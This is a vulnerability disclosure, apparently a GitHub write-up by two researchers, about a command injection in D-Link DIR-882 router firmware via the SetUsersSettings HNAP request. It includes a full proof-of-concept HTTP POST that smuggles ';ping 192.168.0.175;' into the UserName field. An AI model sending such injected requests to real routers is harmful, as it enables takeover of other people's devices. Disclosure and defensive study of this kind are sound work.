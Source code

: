 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882

Version:DIR_882_FW1.30B06_Hotfix_02(Download Link:https://support.dlink.com/productinfo.aspx?m=DIR-882-US)

Type:Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request. This occurs when any HNAP API function triggers a call to the `twsystem` function with untrusted input from the request body for the `SetUsersSettings` API function (ModuleInitUSB,need authentication).

**Command Execution**

In `prog.cgi` binary:

In `SetUsersSettings` function,`Username`、`Password` is directly passed by the attacker.After that, call the function sub_4966B0.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked.And then,call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc` binary:

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.**The key to triggering this vulnerability is to set up samba and ftp services, and be able to insert usb devices**.**(HID attack)**

Why open the samba service and insert the usbdisk?

Because there is a judgment in the program here, only after the usbdisk is inserted and SAMBA is turned on can it enter the vulnerability trigger function.

Similiarly, you can use the method of sending data packets to enable the router to enable the SAMBA service.

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## PoC

We set `Username` as **;ping 192.168.0.175;**（my ip address）, and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetUsersSettings"
HNAP_AUTH: C6521D123CA401E72128EAB399059BC8 1640011263203
X-Requested-With: XMLHttpRequest
Content-Length: 1716
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/UserAndDevice.html
Cookie: uid=gsTMZTiu

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetUsersSettings xmlns="http://purenetworks.com/HNAP1/"><StorageUsersLists><StorageUser><Enabled>true</Enabled><UserName>Admin</UserName><Password>b3faad17c9311b62f391829b68a11c1ce5ccad17b7311bb8f391409b68dc1c1ce5ccad17b7311bb8f391409b68dc1c1ce5ccad17b7311bb8f391409b68dc1c1c</Password><ServiceInfoLists><ServiceInfo><Enabled>true</Enabled><ServiceName>SAMBA</ServiceName><AccessPath>/</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>true</Enabled><ServiceName>FTP</ServiceName><AccessPath>/</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>false</Enabled><ServiceName>VPN</ServiceName><AccessPath></AccessPath><Permission>true</Permission></ServiceInfo></ServiceInfoLists></StorageUser><StorageUser><Enabled>true</Enabled><UserName>;ping 192.168.0.175;</UserName><Password>b3ccad17b7311bb8f3917d9b68891c1ce5ccad17b7311bb8f391409b68dc1c1ce5ccad17b7311bb8f391409b68dc1c1ce5ccad17b7311bb8f391409b68dc1c1c</Password><ServiceInfoLists><ServiceInfo><Enabled>true</Enabled><ServiceName>SAMBA</ServiceName><AccessPath>root</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>true</Enabled><ServiceName>FTP</ServiceName><AccessPath>/</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>true</Enabled><ServiceName>VPN</ServiceName><AccessPath></AccessPath><Permission>true</Permission></ServiceInfo></ServiceInfoLists></StorageUser></StorageUsersLists></SetUsersSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>



## Result

This will triger the `start_samba` method, and then execute ping command!

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>

